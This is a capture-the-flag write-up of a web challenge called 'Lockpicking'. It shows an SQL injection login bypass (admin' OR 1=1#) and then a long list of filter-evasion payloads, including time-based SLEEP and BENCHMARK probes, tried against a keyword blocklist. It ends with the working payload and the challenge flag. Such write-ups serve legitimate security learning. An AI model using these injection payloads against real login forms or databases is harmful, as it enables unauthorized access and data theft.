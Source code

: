 # Lockpicking
### Description: I just made a vault to store my treasured things, it should be very secure right?

We are given a link into a website.

Upon entering the website, we are greeted with 2 fields to put credentials in, a telltale sign of a SQL Injection problem:

![alt text](image.png)

There's a tip down there:
```
💡 Lockpicking Tip:
This login accepts many public payloads (try common cheatsheets!).
```

If so, i will try the tried and true ```admin' OR 1=1#```

It worked, and we are now in front of a Vault (Which presumably contains the flag):

![alt text](image-1.png)

However, there are warnings:
```
A digital keypad awaits you. But beware, it blocks some obvious tricks:

or, and, union, select, from, where, information_schema, --, #
```

This means the usual keywords to get the db to print the flag cannot be used, and we need to find a workaround.

I tried the following to try and break the lock and leak the flag:
```
' || 1=1/*
' || '1'='1'/*
' || 1/*
' || true/*
1 || 1/*
1 || 1=1/*
' || 1=1/**/
' || 2>1/*
' || 1<2/*
' || (1)=(1)/*
1*(1=1)
1+(1=1)
' || 'a'='a'/*
' || 'x' LIKE 'x'/*
' || 'a' IN('a')/*
' || 1=1/**/
' || 1=1 /*comment*/
' /*comment*/ || 1=1
' || CONCAT('1','=','1')/*
' || 1=0x1/*
' || 1=CHAR(49)/*
' || SLEEP(5)/*
' || BENCHMARK(1000000,MD5(1))/*
' || WAITFOR DELAY '0:0:5'/* (the OR in WAITFOR is filtered LOL)
' IS NULL || 1=1 LIMIT 1/*
' && 1=1/*
```

But none of those worked. And then i tried ```'+' ``` and the flag was printed:

![alt text](image-2.png)

![alt text](image-3.png)

Flag: ```HCS{d1d_y0u_just_unl0ck_th1s_v4ult?_c0ngr4tz_th3n_y0u_th13f}```


